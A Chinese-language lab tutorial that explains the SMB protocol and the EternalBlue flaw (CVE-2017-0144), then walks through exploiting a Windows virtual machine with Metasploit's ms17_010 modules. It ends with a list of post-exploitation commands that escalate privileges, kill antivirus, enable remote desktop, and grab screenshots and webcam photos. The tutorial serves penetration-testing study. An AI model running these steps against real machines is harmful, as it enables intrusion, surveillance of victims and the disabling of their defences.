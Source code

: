 # **一、 环境准备**

1 一台Windows电脑

（可以使用虚拟机代替）

### 2 Metasploit任意平台

  可以是Windows版，可以是kali自带版

# **二、** CVE-2017-0144 介绍

1.何为CVE-2017-0144？

​    CVE-2017-0144 既 永恒之蓝最早爆发于2017年4月14日晚，是一种利用Windows系统的SMB协议漏洞来获取系统的最高权限，以此来控制被入侵的计算机。甚至于2017年5月12日， 不法分子通过改造“永恒之蓝”制作了勒索病毒，使全世界大范围内遭受了勒索病毒，甚至波及到学校、大型企业、政府等机构，只能通过支付高额的赎金才能恢复出文件。

2.什么是SMB协议？

 SMB是一种网络文件共享协议，它是一种客户机/服务器、请求/响应协议，通过SMB协议可以在计算机间共享文件、打印机、命名管道等资源，电脑上的网上邻居就是靠SMB实现的；SMB协议工作在应用层和会话层，可以用在TCP/IP协议之上，SMB使用TCP139端口和TCP445端口。

3.SMB工作原理是什么？

   （1）：首先客户端发送一个SMB negport 请求数据报，并列出它所支持的所有SMB的协议版本。服务器收到请求消息后响应请求，并列出希望使用的SMB协议版本。如果没有可以使用的协议版本则返回0XFFFFH，结束通信。

   （2）：协议确定后，客户端进程向服务器发起一个用户或共享的认证，这个过程是通过发送SessetupX请求数据包实现的。客户端发送一对用户名和密码或一个简单密码到服务器，然后通过服务器发送一个SessetupX应答数据包来允许或拒绝本次连接。

   （3）：当客户端和服务器完成了磋商和认证之后，它会发送一个Tcon或TconX SMB数据报并列出它想访问的网络资源的名称，之后会发送一个TconX应答数据报以表示此次连接是否接收或拒绝。

   （4）：连接到相应资源后，SMB客户端就能够通过open SMB打开一个文件，通过read SMB读取文件，通过write SMB写入文件，通过close SMB关闭文件。

# **三、原理**     永恒之蓝是在Windows的SMB服务处理SMB v1请求时发生的漏洞，这个漏洞导致攻击者在目标系统上可以执行任意代码。通过永恒之蓝漏洞会扫描开放445文件共享端口的Windows机器，无需用户任何操作，只要开机上网，不法分子就能在电脑和服务器中植入勒索软件、远程控制木马、虚拟货币挖矿机等恶意程序。

 

# **四、CVE-2017-0144 利用方法**

为了确保本次实验顺利完成，被攻击机的防火墙需要关闭，并且打开打印机共享功能。

![image-20240916195435923](14 永恒之蓝利用文档/image-20240916195435923.png)	

![image-20240916195531771](14 永恒之蓝利用文档/image-20240916195531771.png)	

1  启动Metasploit

终端里输入 msfconsole

2 查询利用模块

终端里输入 search ms17_010

a![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/960ae38818084260be8eb69e589edba4.png)

3 使用辅助探测模块，来搜寻主机是否具有永恒之蓝的漏洞

终端内输入  use auxiliary/scanner/smb/smb_ms17_010

4 设置探测范围

终端内输入  show options   

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/ab7ca3d4ba774677bc2a239c420349f7.png)

上图中我们可以看到是需要配置一个RHOSTS  ，于是配置攻击者的ip地址进行扫描。

![image-20240916201707783](14 永恒之蓝利用文档/image-20240916201707783.png)	

5 开始探测

终端内输入  run 执行探测，根据上图我们可以看到 192.168.15.115 这个IP的机器可能存在漏洞

![image-20240916201725876](14 永恒之蓝利用文档/image-20240916201725876.png)	

6 开始漏洞利用

开始利用首先在终端里输入
search ms17_010

![img](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/1985/1641450314000/8bf107d057a34676984a5d5e8b9bae73.png)

使用 模块
use  exploit/windows/smb/ms17_010_eternalblue

![image-20240916201810346](14 永恒之蓝利用文档/image-20240916201810346.png)	

7 配置利用模块
show options查看有哪些属性需要配置

配置被攻击机的ip地址，然后开始攻击

![image-20240916201925911](14 永恒之蓝利用文档/image-20240916201925911.png)	

8 执行攻击

在终端里输入  run，只要看到meterpreter，说明攻击成功。 


![image-20240916201948208](14 永恒之蓝利用文档/image-20240916201948208.png)	

9 后渗透操作

查看进程：ps
查看当前进程号：getpid
查看系统信息：sysinfo
查看目标机是否为虚拟机：run post/windows/gather/checkvm
查看完整网络设置：route
查看当前权限：getuid
自动提权：getsystem
关闭杀毒软件：run post/windows/manage/killav
启动远程桌面协议：run post/windows/manage/enable_rdp
列举当前登录的用户：run post/windows/gather/enum_logged_on_users
查看当前应用程序：run post/windows/gather/enum_applications
抓取目标机的屏幕截图：load espia ； screengrab
抓取摄像头的照片：webcam_snap
查看当前处于目标机的那个目录：pwd
查看当前目录：getlwd

比如查看操作系统信息。

![image-20240916202051943](14 永恒之蓝利用文档/image-20240916202051943.png)	

检查发现是一台虚拟机。

![image-20240916202117940](14 永恒之蓝利用文档/image-20240916202117940.png)	

打开被攻击机的远程桌面协议

![image-20240916202203671](14 永恒之蓝利用文档/image-20240916202203671.png)	

对这个虚拟机进行截图，即可获取这个虚拟机的桌面状况信息。

![image-20240916202357651](14 永恒之蓝利用文档/image-20240916202357651.png)	















